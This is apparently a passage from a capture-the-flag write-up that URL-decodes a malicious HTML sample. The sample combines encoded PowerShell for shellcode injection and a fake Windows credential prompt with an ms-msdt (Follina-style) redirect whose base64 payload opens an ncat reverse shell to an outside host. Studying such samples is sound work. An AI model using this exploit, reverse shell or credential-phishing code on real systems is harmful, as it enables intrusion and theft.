4%32%35%6D%63%6B%35%78%63%57%56%79%5A%6D%59%73%49%44%41%73%49%46%74%57%59%57%64%44%5A%32%56%64%4F%6A%70%4E%63%6D%56%69%4B%51%6F%67%49%43%41%67%49%43%41%67%49%48%5A%7A%49%43%67%68%4A%45%64%31%5A%58%4A%75%63%56%56%75%59%58%46%35%63%69%6B%4B%49%43%41%67%49%43%41%67%49%43%42%37%43%69%41%67%49%43%41%67%49%43%41%67%49%43%41%67%49%45%64%31%5A%57%4A%71%49%43%4A%49%59%57%35%76%65%58%49%67%5A%32%49%67%65%57%35%6F%59%58%42%31%49%47%64%31%5A%58%4A%75%63%53%34%69%43%69%41%67%49%43%41%67%49%43%41%67%66%53%41%67%0A%3C%2F%70%3E%0A%3C%70%3E%0A%43%69%35%44%54%6B%56%4F%57%6C%4A%48%55%6B%55%67%61%47%56%35%43%6B%64%31%64%6D%59%67%64%6D%59%67%5A%33%56%79%49%45%68%46%57%53%42%7A%59%6D%55%67%5A%33%56%79%49%48%46%69%61%6D%46%35%59%6D%35%78%49%48%42%6C%62%6E%46%35%63%69%77%67%62%32%77%67%63%58%4A%7A%62%6D%68%35%5A%79%42%32%5A%79%42%71%64%6E%6C%35%49%47%39%79%49%47%5A%69%65%6E%4A%6E%64%58%5A%68%64%43%41%4B%65%58%5A%34%63%69%41%69%64%57%64%6E%59%32%59%36%4C%79%39%79%61%58%5A%35%4C%6E%4A%72%62%6E%70%6A%65%58%49%75%63%47%4A%36%4C%31%74%46%62%6D%46%78%59%6E%6F%67%55%48%56%75%5A%57%5A%64%49%67%6F%4B%4C%6C%4A%4C%54%6C%70%44%57%56%49%4B%51%30%59%67%55%44%70%63%50%6C%5A%68%61%57%4A%34%63%69%31%61%63%6D%64%75%5A%6D%4E%35%59%6E%5A%6E%51%32%35%73%65%57%4A%75%63%53%41%74%61%47%56%35%49%48%56%6E%5A%32%4E%6D%4F%69%38%76%63%6D%6C%32%65%53%35%79%61%32%35%36%59%33%6C%79%4C%6E%42%69%65%69%38%79%65%44%46%32%5A%6C%4A%78%5A%6E%6B%4B%55%57%4A%71%59%58%6C%69%62%6E%46%6D%49%47%35%68%63%53%42%79%61%33%4A%77%61%47%64%79%5A%69%42%75%49%46%70%79%5A%32%35%6D%59%33%6C%69%64%6D%63%67%59%32%35%73%65%57%4A%75%63%53%42%35%59%6E%42%75%5A%33%4A%78%49%47%35%6E%49%48%56%6E%5A%32%4E%6D%4F%69%38%76%63%6D%6C%32%65%53%35%79%61%32%35%36%59%33%6C%79%4C%6E%42%69%65%69%38%79%65%44%46%32%5A%6C%4A%78%5A%6E%6B%4B%43%67%6F%75%51%55%4A%48%55%6B%59%4B%54%47%4A%6F%49%48%42%75%59%53%42%6F%5A%6E%49%67%5A%33%56%79%49%43%49%74%61%58%4A%6C%62%32%4A%6D%63%69%49%67%59%6D%4E%6E%64%6D%4A%68%49%48%4E%69%5A%53%42%70%63%6D%56%76%59%6D%5A%79%49%47%4A%6F%5A%32%4E%6F%5A%79%34%4B%43%69%35%5A%56%6B%46%59%43%6C%52%32%5A%33%56%6F%62%7A%6F%67%64%57%64%6E%59%32%59%36%4C%79%39%30%64%6D%64%31%61%47%38%75%63%47%4A%36%4C%33%64%75%5A%58%4A%78%64%57%35%32%64%48%56%6E%4C%31%5A%68%61%57%4A%34%63%69%31%61%63%6D%64%75%5A%6D%4E%35%59%6E%5A%6E%51%32%35%73%65%57%4A%75%63%51%6F%4B%49%7A%34%6E%0A%0A%63%32%68%68%63%47%64%32%59%6D%45%67%56%6D%46%70%59%6E%68%79%4C%56%6C%69%64%48%5A%68%51%32%56%69%65%6D%4E%6E%65%77%6F%6B%63%47%56%79%63%53%41%39%49%43%52%56%59%6D%5A%6E%4C%6D%68%32%4C%6B%4E%6C%59%6E%70%6A%5A%31%4E%69%5A%56%42%6C%63%6E%46%79%59%57%64%32%62%6E%6B%6F%49%6B%70%32%59%58%46%69%61%6D%59%67%52%6E%4A%77%61%47%56%32%5A%32%77%69%4C%43%41%69%52%58%74%52%55%6B%5A%51%52%56%5A%44%52%31%5A%43%51%58%30%69%4C%43%41%69%4A%48%4A%68%61%54%70%6F%5A%6E%4A%6C%63%57%4A%36%62%6E%5A%68%58%43%52%79%59%57%6B%36%61%47%5A%79%5A%57%46%75%65%6E%49%69%4C%43%49%69%4B%51%6F%6B%61%47%5A%79%5A%57%46%75%65%6E%49%67%50%53%41%69%4A%48%4A%68%61%54%70%6F%5A%6E%4A%6C%59%57%35%36%63%69%49%4B%4A%48%46%69%65%6D%35%32%59%53%41%39%49%43%49%6B%63%6D%46%70%4F%6D%68%6D%63%6D%56%78%59%6E%70%75%64%6D%45%69%43%69%52%7A%61%48%6C%35%49%44%30%67%49%69%52%78%59%6E%70%75%64%6D%45%69%49%43%73%67%49%6C%77%69%49%43%73%67%49%69%52%6F%5A%6E%4A%6C%59%57%35%36%63%69%49%4B%4A%47%4E%75%5A%6D%5A%71%59%6D%56%78%49%44%30%67%4A%48%42%6C%63%6E%45%75%56%48%4A%6E%51%58%4A%6E%61%6D%4A%6C%65%46%42%6C%63%6E%46%79%59%57%64%32%62%6E%6B%6F%4B%53%35%6A%62%6D%5A%6D%61%6D%4A%6C%63%51%70%4F%63%58%45%74%52%32%78%6A%63%69%41%74%62%6D%5A%6D%63%6E%70%76%65%57%78%68%62%6E%70%79%49%45%5A%73%5A%6D%64%79%65%69%35%52%64%6D%56%79%63%47%64%69%5A%57%78%47%63%6D%56%70%64%6E%42%79%5A%69%35%4F%63%48%42%69%61%47%46%6E%57%6D%35%68%62%6E%52%79%65%6E%4A%68%5A%77%6F%6B%55%55%59%67%50%53%42%42%63%6D%6F%74%51%6D%39%33%63%6E%42%6E%49%45%5A%73%5A%6D%64%79%65%69%35%52%64%6D%56%79%63%47%64%69%5A%57%78%47%63%6D%56%70%64%6E%42%79%5A%69%35%4F%63%48%42%69%61%47%46%6E%57%6D%35%68%62%6E%52%79%65%6E%4A%68%5A%79%35%44%5A%58%5A%68%63%48%5A%6A%62%6E%6C%51%59%6D%46%6E%63%6D%74%6E%4B%46%74%47%62%47%5A%6E%63%6E%6F%75%55%58%5A%6C%63%6E%42%6E%59%6D%56%73%52%6E%4A%6C%61%58%5A%77%63%6D%59%75%54%6E%42%77%59%6D%68%68%5A%31%70%75%59%57%35%30%63%6E%70%79%59%57%63%75%55%47%4A%68%5A%33%4A%72%5A%30%64%73%59%33%4A%64%4F%6A%70%61%62%6E%42%31%64%6D%46%79%4B%51%70%71%64%58%5A%35%63%69%67%6B%55%55%59%75%53%57%35%35%64%6E%46%75%5A%33%4A%51%5A%58%4A%78%63%6D%46%6E%64%6D%35%35%5A%69%67%69%4A%48%4E%6F%65%58%6B%69%4C%43%49%6B%59%32%35%6D%5A%6D%70%69%5A%58%45%69%4B%53%41%74%59%58%49%67%4A%45%64%6C%61%48%49%70%65%77%6F%67%49%43%41%67%4A%48%42%6C%63%6E%45%67%50%53%41%6B%56%57%4A%6D%5A%79%35%6F%64%69%35%44%5A%57%4A%36%59%32%64%54%59%6D%56%51%5A%58%4A%78%63%6D%46%6E%64%6D%35%35%4B%43%4A%4B%64%6D%46%78%59%6D%70%6D%49%45%5A%79%63%47%68%6C%64%6D%64%73%49%69%77%67%49%6C%5A%68%61%57%35%35%64%6E%45%67%55%47%56%79%63%58%4A%68%5A%33%5A%75%65%57%59%73%49%45%4E%35%63%6D%35%6D%63%69%42%6E%5A%57%77%67%62%6E%52%75%64%6D%45%69%4C%43%41%69%4A%48%4A%68%61%54%70%6F%5A%6E%4A%6C%63%57%4A%36%62%6E%5A%68%58%43%52%79%59%57%6B%36%61%47%5A%79%5A%57%46%75%65%6E%49%69%4C%43%49%69%4B%51%6F%67%49%43%41%67%4A%47%68%6D%63%6D%56%68%62%6E%70%79%49%44%30%67%49%69%52%79%59%57%6B%36%61%47%5A%79%5A%57%46%75%65%6E%49%69%43%69%41%67%49%43%41%6B%63%57%4A%36%62%6E%5A%68%49%44%30%67%49%69%52%79%59%57%6B%36%61%47%5A%79%5A%58%46%69%65%6D%35%32%59%53%49%4B%49%43%41%67%49%43%52%7A%61%48%6C%35%49%44%30%67%49%69%52%78%59%6E%70%75%64%6D%45%69%49%43%73%67%49%6C%77%69%49%43%73%67%49%69%52%6F%5A%6E%4A%6C%59%57%35%36%63%69%49%4B%49%43%41%67%49%43%52%6A%62%6D%5A%6D%61%6D%4A%6C%63%53%41%39%49%43%52%77%5A%58%4A%78%4C%6C%52%79%5A%30%46%79%5A%32%70%69%5A%58%68%51%5A%58%4A%78%63%6D%46%6E%64%6D%35%35%4B%43%6B%75%59%32%35%6D%5A%6D%70%69%5A%58%45%4B%49%43%41%67%49%45%35%78%63%53%31%48%62%47%4E%79%49%43%31%75%5A%6D%5A%79%65%6D%39%35%62%47%46%75%65%6E%49%67%52%6D%78%6D%5A%33%4A%36%4C%6C%46%32%5A%58%4A%77%5A%32%4A%6C%62%45%5A%79%5A%57%6C%32%63%48%4A%6D%4C%6B%35%77%63%47%4A%6F%59%57%64%61%62%6D%46%75%64%48%4A%36%63%6D%46%6E%43%69%41%67%49%43%41%6B%55%55%59%67%50%53%42%42%63%6D%6F%74%51%6D%39%33%63%6E%42%6E%49%45%5A%73%5A%6D%64%79%65%69%35%52%64%6D%56%79%63%47%64%69%5A%57%78%47%63%6D%56%70%64%6E%42%79%5A%69%35%4F%63%48%42%69%61%47%46%6E%57%6D%35%68%62%6E%52%79%65%6E%4A%68%5A%79%35%44%5A%58%5A%68%63%48%5A%6A%62%6E%6C%51%59%6D%46%6E%63%6D%74%6E%4B%46%74%47%62%47%5A%6E%63%6E%6F%75%55%58%5A%6C%63%6E%42%6E%59%6D%56%73%52%6E%4A%6C%61%58%5A%77%63%6D%59%75%54%6E%42%77%59%6D%68%68%5A%31%70%75%59%57%35%30%63%6E%70%79%59%57%63%75%55%47%4A%68%5A%33%4A%72%5A%30%64%73%59%33%4A%64%4F%6A%70%61%62%6E%42%31%64%6D%46%79%4B%51%6F%67%49%43%41%67%4A%46%46%47%4C%6B%6C%75%65%58%5A%78%62%6D%64%79%55%47%56%79%63%58%4A%68%5A%33%5A%75%65%57%59%6F%49%69%52%7A%61%48%6C%35%49%69%77%67%49%69%52%6A%62%6D%5A%6D%61%6D%4A%6C%63%53%49%70%49%48%77%67%59%6D%68%6E%4C%57%46%6F%65%58%6B%4B%49%43%41%67%49%48%30%4B%49%43%52%69%61%47%64%6A%61%47%63%67%50%53%41%6B%59%58%4A%71%63%47%56%79%63%53%41%39%49%43%52%77%5A%58%4A%78%4C%6C%52%79%5A%30%46%79%5A%32%70%69%5A%58%68%51%5A%58%4A%78%63%6D%46%6E%64%6D%35%35%4B%43%6B%67%66%43%42%6D%63%6E%6C%79%63%47%63%74%59%6D%39%33%63%6E%42%6E%49%45%68%6D%63%6D%56%42%62%6E%70%79%4C%43%42%52%59%6E%70%75%64%6D%45%73%49%45%4E%75%5A%6D%5A%71%59%6D%56%78%43%69%41%6B%59%6D%68%6E%59%32%68%6E%43%69%42%46%65%30%5A%48%54%6B%56%48%58%30%4E%46%51%6C%42%53%52%6B%5A%39%43%6E%30%67%0A%3C%2F%70%3E%0A%3C%73%63%72%69%70%74%3E%0A%20%20%20%20%6C%6F%63%61%74%69%6F%6E%2E%68%72%65%66%20%3D%20%22%6D%73%2D%6D%73%64%74%3A%2F%69%64%20%50%43%57%44%69%61%67%6E%6F%73%74%69%63%20%2F%73%6B%69%70%20%66%6F%72%63%65%20%2F%70%61%72%61%6D%20%5C%22%49%54%5F%52%65%62%72%6F%77%73%65%46%6F%72%46%69%6C%65%3D%3F%20%49%54%5F%4C%61%75%6E%63%68%4D%65%74%68%6F%64%3D%43%6F%6E%74%65%78%74%4D%65%6E%75%20%49%54%5F%42%72%6F%77%73%65%46%6F%72%46%69%6C%65%3D%24%28%49%6E%76%6F%6B%65%2D%45%78%70%72%65%73%73%69%6F%6E%28%24%28%49%6E%76%6F%6B%65%2D%45%78%70%72%65%73%73%69%6F%6E%28%27%5B%53%79%73%74%65%6D%2E%54%65%78%74%2E%45%6E%63%6F%64%69%6E%67%5D%27%2B%5B%63%68%61%72%5D%35%38%2B%5B%63%68%61%72%5D%35%38%2B%27%55%6E%69%63%6F%64%65%2E%47%65%74%53%74%72%69%6E%67%28%5B%53%79%73%74%65%6D%2E%43%6F%6E%76%65%72%74%5D%27%2B%5B%63%68%61%72%5D%35%38%2B%5B%63%68%61%72%5D%35%38%2B%27%46%72%6F%6D%42%61%73%65%36%34%53%74%72%69%6E%67%28%27%2B%5B%63%68%61%72%5D%33%34%2B%27%59%77%41%36%41%46%77%41%58%41%42%33%41%47%6B%41%62%67%42%6B%41%47%38%41%64%77%42%7A%41%46%77%41%58%41%42%7A%41%48%6B%41%63%77%42%30%41%47%55%41%62%51%41%7A%41%44%49%41%58%41%42%63%41%47%4D%41%62%51%42%6B%41%43%34%41%5A%51%42%34%41%47%55%41%49%41%41%76%41%47%4D%41%49%41%42%75%41%47%4D%41%59%51%42%30%41%43%41%41%64%77%42%33%41%48%63%41%4C%67%42%33%41%47%6B%41%62%67%42%6B%41%47%38%41%64%77%42%7A%41%47%77%41%61%51%42%32%41%47%55%41%64%51%42%77%41%47%51%41%59%51%42%30%41%47%55%41%63%67%41%75%41%47%4D%41%62%77%42%74%41%43%41%41%4E%51%41%30%41%44%63%41%4E%67%41%67%41%43%30%41%5A%51%41%67%41%47%4D%41%62%51%42%6B%41%43%34%41%5A%51%42%34%41%47%55%41%4F%77%41%67%41%43%51%41%63%41%42%30%41%44%45%41%50%51%42%63%41%43%49%41%53%41%42%55%41%45%49%41%65%77%42%61%41%47%55%41%63%67%41%77%41%46%38%41%52%41%42%68%41%48%6B%41%57%67%42%66%41%44%51%41%55%67%42%6C%41%46%38%41%51%77%41%77%41%45%38%41%62%41%42%66%41%45%49%41%64%51%42%55%41%46%38%41%58%41%41%69%41%41%3D%3D%27%2B%5B%63%68%61%72%5D%33%34%2B%27%29%29%27%29%29%29%29%69%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%57%69%6E%64%6F%77%73%2F%53%79%73%74%65%6D%33%32%2F%6D%70%73%69%67%73%74%75%62%2E%65%78%65%5C%22%22%3B%0A%3C%2F%73%63%72%69%70%74%3E%0A%0A%3C%2F%62%6F%64%79%3E%0A%3C%2F%68%74%6D%6C%3E'))
//-->
</script>
```

### Analysing the JavaScript code

We can URL decode the JavaScript code with anything for example with [`CyberChef`](https://gchq.github.io/CyberChef/):

```html
<!doctype html>
<html lang="en">
<head>
<title>
Good thing we disabled macros
</title>
</head>
<body>
<p>
ICAgIEpldmdyLUlyZW9iZnIgIlsqXSBQZXJuZ3ZhdCBRYmpheWJucSBQZW5xeXIgZnBldmNnIGhmdmF0ICRoZXkiCiAgICAkUWJqYXlibnFQZW5xeXIgPSdbRmxmZ3J6LkFyZy5GcmVpdnByQ2J2YWdabmFudHJlXTo6RnJlaXJlUHJlZ3ZzdnBuZ3JJbnl2cW5ndmJhUG55eW9ucHggPSB7JGdlaHJ9OyRweXZyYWcgPSBBcmotQm93cnBnIEFyZy5Kcm9QeXZyYWc7JHB5dnJhZy5DZWJrbD1bQXJnLkpyb0VyZGhyZmddOjpUcmdGbGZncnpKcm9DZWJrbCgpOyRweXZyYWcuQ2Via2wuUGVycXJhZ3ZueWY9W0FyZy5QZXJxcmFndm55UG5wdXJdOjpRcnNuaHlnUGVycXJhZ3ZueWY7VmFpYnhyLVJrY2VyZmZ2YmEgJHB5dnJhZy5xYmpheWJucWZnZXZhdCgnJycrJGhleSsnJycpOyc0

ICAgIHsKICAgICAgICBKZXZnci1JcmVvYmZyICJbKl0gWWJieGYgeXZ4ciBqcidlciAzMm92ZywgaGZ2YXQgZmxmamJqNjQgY2JqcmVmdXJ5eS5ya3IiCiAgICAgICAgJENianJlZnVyeXlSa3I9JHJhaTpqdmFxdmUrJ1xmbGZqYmo2NFxKdmFxYmpmQ2JqcmVGdXJ5eVxpMS4wXGNianJlZnVyeXkucmtyJwogICAgfTsKICAgIAAg
</p>
<p>
c2hhcGd2YmEgVmFpYnhyLVpyZ25mY3lidmdDbmx5Ym5xIAp7CjwjCi5GTEFCQ0ZWRgpYdnB4IGJzcyBuIFpyZ25mY3lidmcgQ25seWJucSBoZnZhdCBndXIgcmtjeWJ2Zy96aHlndi9mcGV2Y2cvanJvX3FyeXZpcmVsIHpicWh5cgpOaGd1YmU6IFduZXJxIFVudnR1ZyAoQHduZXJxdW52dHVnKQpZdnByYWZyOiBaVkcKRXJkaHZlcnEgUXJjcmFxcmFwdnJmOiBBYmFyCkJjZ3ZiYW55IFFyY3JhcXJhcHZyZjogQWJhcgogCi5RUkZQRVZDR1ZCQQpGY25qYWYgbiBhcmosIHV2cXFyYSBDYmpyZUZ1cnl5IGp2YXFiaiBndW5nIHFiamF5Ym5xZiBuYXEgcmtycGhncmYgbiBacmduZmN5YnZnIGNubHlibnEgc2VieiBuIGZjcnB2c3ZycSBIRVkuCgpHdXZmIGVyeXZyZiBiYSBndXIgcmtjeWJ2Zy96aHlndi9mcGV2Y2dmL2pyb19xcnl2aXJlbCB6cmduZmN5YnZnIHpicWh5ci4gR3VyIGpyb19xcnl2aXJlbCB6YnFoeXIgdHJhcmVuZ3JmIG4gZnBldmNnIHNiZQpuIHR2aXJhIGNubHlibnEgbmFxIGd1cmEgc3ZlcmYgaGMgbiBqcm9mcmVpcmUgZ2IgdWJmZyBmbnZxIGZwZXZjZy4gVnMgZ3VyIGNubHlibnEgdmYgbiBlcmlyZWZyIGZ1cnl5LCB2ZyBqdnl5IG55ZmIgdW5hcXlyCmZnbmVndmF0IGhjIGd1ciB5dmZncmFyZSBzYmUgZ3VuZyBjbmx5Ym5xLiAKCk5hIHJrbnpjeXIgZXAgc3Z5ciB2ZiBvcnliaiAoYmUgbGJoIHBuYSB3aGZnIGdsY3IgZ3VyIHBienpuYXFmIHpuYWhueXlsKS4gVmcgcWJyZiBndXIgc2J5eWJqdmF0OgoKKiBGcmdmIGd1ciBxYmpheWJucSBwZW5xeXIgZ2IgY2JlZyA4NDQzIChGRUlDQkVHKSBiYSBueXkgVkNmIChGRUlVQkZHKQoqIEZyZ2YgZ3VyIGZwZXZjZyBnbmV0cmcgZ2IgQ2JqcmVGdXJ5eSAoZnJnIGduZXRyZyAyKQoqIEZyZ2YgZ3VyIGNubHlibnEgb3J2YXQgZnJlaXJxIGdiIGp2YXFiamYvenJncmVjZXJncmUvZXJpcmVmcl91Z2djZgoqIEZyZ2YgZ3VyIGNubHlibnEgZ2IgeXZmZ3JhIGJhIGNiZWcgNDQzIChZQ0JFRykgYmEgbnl5IFZDZiAoWVVCRkcp

ICAgIHZzICgkRnVyeXlwYnFyNjQuWXJhdGd1IC1yZCAwKQogICAgICAgICAgICB7CiAgICAgICAgICAgICAgICBHdWViaiAnQWIgZnVyeXlwYnFyIGpuZiBjeW5wcnEgdmEgZ3VyICRGdXJ5eXBicXI2NCBpbmV2bm95ciEnCiAgICAgICAgICAgICAgICBlcmdoZWEKICAgICAgICAgICAgfQogICAgICAgICAgICAKICAgICAgICAgICAgJEZ1cnl5cGJxciA9ICRGdXJ5eXBicXI2NAogICAgICAgICAgICBKZXZnci1JcmVvYmZyICdIZnZhdCA2NC1vdmcgZnVyeXlwYnFyLicKICAgICAgICB9CiAgICAKICAgICAgICAjIE55eWJwbmdyIEVKSyB6cnpiZWwgc2JlIGd1ciBmdXJ5eXBicXIKICAgICAgICAkT25mck5xcWVyZmYgPSAkSXZlZ2hueU55eWJwLlZhaWJ4cihbVmFnQ2dlXTo6TXJlYiwgJEZ1cnl5cGJxci5ZcmF0Z3UgKyAxLCAwazMwMDAsIDBrNDApICMgKEVyZnJlaXJ8UGJ6enZnLCBFSkspCiAgICAgICAgdnMgKCEkT25mck5xcWVyZmYpCiAgICAgICAgewogICAgICAgICAgICBHdWViaiAiSGFub3lyIGdiIG55eWJwbmdyIGZ1cnl5cGJxciB6cnpiZWwgdmEgQ1ZROiAkQ2VicHJmZlZRIgogICAgICAgIH0KICAgICAgICAKICAgICAgICBKZXZnci1JcmVvYmZyICJGdXJ5eXBicXIgenJ6YmVsIGVyZnJlaXJxIG5nIDBrJCgkT25mck5xcWVyZmYuR2JGZ2V2YXQoIkskKFtWYWdDZ2VdOjpGdm1yKjIpIikpIgoKICAgICAgICAjIFBiY2wgZnVyeXlwYnFyIGdiIEVKSyBvaHNzcmUKICAgICAgICBbRmxmZ3J6LkVoYWd2enIuVmFncmViY0ZyZWl2cHJmLlpuZWZ1bnldOjpQYmNsKCRGdXJ5eXBicXIsIDAsICRPbmZyTnFxZXJmZiwgJEZ1cnl5cGJxci5ZcmF0Z3UpCiAgICAgICAgCiAgICAgICAgIyBUcmcgbnFxZXJmZiBicyBSa3ZnR3Vlcm5xIHNoYXBndmJhCiAgICAgICAgJFJrdmdHdWVybnFOcXFlID0gVHJnLUNlYnBOcXFlcmZmIHhyZWFyeTMyLnF5eSBSa3ZnR3Vlcm5xCiAgICAgICAgCiAgICAgICAgdnMgKCRDYmpyZUZ1cnl5MzJvdmcpCiAgICAgICAgewogICAgICAgICAgICAkUG55eUZnaG8gPSBSenZnLVBueXlHdWVybnFGZ2hvICRPbmZyTnFxZXJmZiAkUmt2Z0d1ZXJucU5xcWUgMzIKICAgICAgICAgICAgCiAgICAgICAgICAgIEpldmdyLUlyZW9iZnIgJ1J6dmdndmF0IDMyLW92ZyBuZmZyem95bCBwbnl5IGZnaG8uJwogICAgICAgIH0KICAgICAgICByeWZyCiAgICAgICAgewogICAgICAgICAgICAkUG55eUZnaG8gPSBSenZnLVBueXlHdWVybnFGZ2hvICRPbmZyTnFxZXJmZiAkUmt2Z0d1ZXJucU5xcWUgNjQKICAgICAgICAgICAgCiAgICAgICAgICAgIEpldmdyLUlyZW9iZnIgJ1J6dmdndmF0IDY0LW92ZyBuZmZyem95bCBwbnl5IGZnaG8uJwogICAgICAgIH0KCiAgICAgICAgIyBOeXlicG5nciBFSksgenJ6YmVsIHNiZSBndXIgZ3Vlcm5xIHBueXkgZmdobwogICAgICAgICRQbnl5Rmdob05xcWVyZmYgPSAkSXZlZ2hueU55eWJwLlZhaWJ4cihbVmFnQ2dlXTo6TXJlYiwgJFBueXlGZ2hvLllyYXRndSArIDEsIDBrMzAwMCwgMGs0MCkgIyAoRXJmcmVpcnxQYnp6dmcsIEVKSykKICAgICAgICB2cyAoISRQbnl5Rmdob05xcWVyZmYpCiAgICAgICAgewogICAgICAgICAgICBHdWViaiAiSGFub3lyIGdiIG55eWJwbmdyIGd1ZXJucSBwbnl5IGZnaG8uIgogICAgICAgIH0KICAgICAgICAKICAgICAgICBKZXZnci1JcmVvYmZyICJHdWVybnEgcG55eSBmZ2hvIHpyemJlbCBlcmZyZWlycSBuZyAwayQoJFBueXlGZ2hvTnFxZXJmZi5HYkZnZXZhdCgiSyQoW1ZhZ0NnZV06OkZ2bXIqMikiKSkiCgogICAgICAgICMgUGJjbCBwbnl5IGZnaG8gZ2IgRUpLIG9oc3NyZQogICAgICAgIFtGbGZncnouRWhhZ3Z6ci5WYWdyZWJjRnJlaXZwcmYuWm5lZnVueV06OlBiY2woJFBueXlGZ2hvLCAwLCAkUG55eUZnaG9OcXFlcmZmLCAkUG55eUZnaG8uWXJhdGd1KQoKICAgICAgICAjIFluaGFwdSBmdXJ5eXBicXIgdmEgdmcnZiBiamEgZ3Vlcm5xCiAgICAgICAgJEd1ZXJucVVuYXF5ciA9ICRQZXJuZ3JHdWVybnEuVmFpYnhyKFtWYWdDZ2VdOjpNcmViLCAwLCAkUG55eUZnaG9OcXFlcmZmLCAkT25mck5xcWVyZmYsIDAsIFtWYWdDZ2VdOjpNcmViKQogICAgICAgIHZzICghJEd1ZXJucVVuYXF5cikKICAgICAgICB7CiAgICAgICAgICAgIEd1ZWJqICJIYW5veXIgZ2IgeW5oYXB1IGd1ZXJucS4iCiAgICAgICAgfSAg
</p>
<p>
Ci5DTkVOWlJHUkUgaGV5Ckd1dmYgdmYgZ3VyIEhFWSBzYmUgZ3VyIHFiamF5Ym5xIHBlbnF5ciwgb2wgcXJzbmh5ZyB2ZyBqdnl5IG9yIGZienJndXZhdCAKeXZ4ciAidWdnY2Y6Ly9yaXZ5LnJrbnpjeXIucGJ6L1tFbmFxYnogUHVuZWZdIgoKLlJLTlpDWVIKQ0YgUDpcPlZhaWJ4ci1acmduZmN5YnZnQ25seWJucSAtaGV5IHVnZ2NmOi8vcml2eS5ya256Y3lyLnBiei8yeDF2ZlJxZnkKUWJqYXlibnFmIG5hcSBya3JwaGdyZiBuIFpyZ25mY3lidmcgY25seWJucSB5YnBuZ3JxIG5nIHVnZ2NmOi8vcml2eS5ya256Y3lyLnBiei8yeDF2ZlJxZnkKCgouQUJHUkYKTGJoIHBuYSBoZnIgZ3VyICItaXJlb2JmciIgYmNndmJhIHNiZSBpcmVvYmZyIGJoZ2NoZy4KCi5ZVkFYClR2Z3VobzogdWdnY2Y6Ly90dmd1aG8ucGJ6L3duZXJxdW52dHVnL1ZhaWJ4ci1acmduZmN5YnZnQ25seWJucQoKIz4n

c2hhcGd2YmEgVmFpYnhyLVlidHZhQ2ViemNnewokcGVycSA9ICRVYmZnLmh2LkNlYnpjZ1NiZVBlcnFyYWd2bnkoIkp2YXFiamYgRnJwaGV2Z2wiLCAiRXtRUkZQRVZDR1ZCQX0iLCAiJHJhaTpoZnJlcWJ6bnZhXCRyYWk6aGZyZWFuenIiLCIiKQokaGZyZWFuenIgPSAiJHJhaTpoZnJlYW56ciIKJHFiem52YSA9ICIkcmFpOmhmcmVxYnpudmEiCiRzaHl5ID0gIiRxYnpudmEiICsgIlwiICsgIiRoZnJlYW56ciIKJGNuZmZqYmVxID0gJHBlcnEuVHJnQXJnamJleFBlcnFyYWd2bnkoKS5jbmZmamJlcQpOcXEtR2xjciAtbmZmcnpveWxhbnpyIEZsZmdyei5RdmVycGdiZWxGcmVpdnByZi5OcHBiaGFnWm5hbnRyenJhZwokUUYgPSBBcmotQm93cnBnIEZsZmdyei5RdmVycGdiZWxGcmVpdnByZi5OcHBiaGFnWm5hbnRyenJhZy5DZXZhcHZjbnlQYmFncmtnKFtGbGZncnouUXZlcnBnYmVsRnJlaXZwcmYuTnBwYmhhZ1puYW50cnpyYWcuUGJhZ3JrZ0dsY3JdOjpabnB1dmFyKQpqdXZ5cigkUUYuSW55dnFuZ3JQZXJxcmFndm55ZigiJHNoeXkiLCIkY25mZmpiZXEiKSAtYXIgJEdlaHIpewogICAgJHBlcnEgPSAkVWJmZy5odi5DZWJ6Y2dTYmVQZXJxcmFndm55KCJKdmFxYmpmIEZycGhldmdsIiwgIlZhaW55dnEgUGVycXJhZ3ZueWYsIEN5cm5mciBnZWwgbnRudmEiLCAiJHJhaTpoZnJlcWJ6bnZhXCRyYWk6aGZyZWFuenIiLCIiKQogICAgJGhmcmVhbnpyID0gIiRyYWk6aGZyZWFuenIiCiAgICAkcWJ6bnZhID0gIiRyYWk6aGZyZXFiem52YSIKICAgICRzaHl5ID0gIiRxYnpudmEiICsgIlwiICsgIiRoZnJlYW56ciIKICAgICRjbmZmamJlcSA9ICRwZXJxLlRyZ0FyZ2piZXhQZXJxcmFndm55KCkuY25mZmpiZXEKICAgIE5xcS1HbGNyIC1uZmZyem95bGFuenIgRmxmZ3J6LlF2ZXJwZ2JlbEZyZWl2cHJmLk5wcGJoYWdabmFudHJ6cmFnCiAgICAkUUYgPSBBcmotQm93cnBnIEZsZmdyei5RdmVycGdiZWxGcmVpdnByZi5OcHBiaGFnWm5hbnRyenJhZy5DZXZhcHZjbnlQYmFncmtnKFtGbGZncnouUXZlcnBnYmVsRnJlaXZwcmYuTnBwYmhhZ1puYW50cnpyYWcuUGJhZ3JrZ0dsY3JdOjpabnB1dmFyKQogICAgJFFGLklueXZxbmdyUGVycXJhZ3ZueWYoIiRzaHl5IiwgIiRjbmZmamJlcSIpIHwgYmhnLWFoeXkKICAgIH0KICRiaGdjaGcgPSAkYXJqcGVycSA9ICRwZXJxLlRyZ0FyZ2piZXhQZXJxcmFndm55KCkgfCBmcnlycGctYm93cnBnIEhmcmVBbnpyLCBRYnpudmEsIENuZmZqYmVxCiAkYmhnY2hnCiBFe0ZHTkVHX0NFQlBSRkZ9Cn0g
</p>
<script>
    location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'Unicode.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'YwA6AFwAXAB3AGkAbgBkAG8AdwBzAFwAXABzAHkAcwB0AGUAbQAzADIAXABcAGMAbQBkAC4AZQB4AGUAIAAvAGMAIABuAGMAYQB0ACAAdwB3AHcALgB3AGkAbgBkAG8AdwBzAGwAaQB2AGUAdQBwAGQAYQB0AGUAcgAuAGMAbwBtACAANQA0ADcANgAgAC0AZQAgAGMAbQBkAC4AZQB4AGUAOwAgACQAcAB0ADEAPQBcACIASABUAEIAewBaAGUAcgAwAF8ARABhAHkAWgBfADQAUgBlAF8AQwAwAE8AbABfAEIAdQBUAF8AXAAiAA=='+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe\"";
</script>

</body>
</html>
```

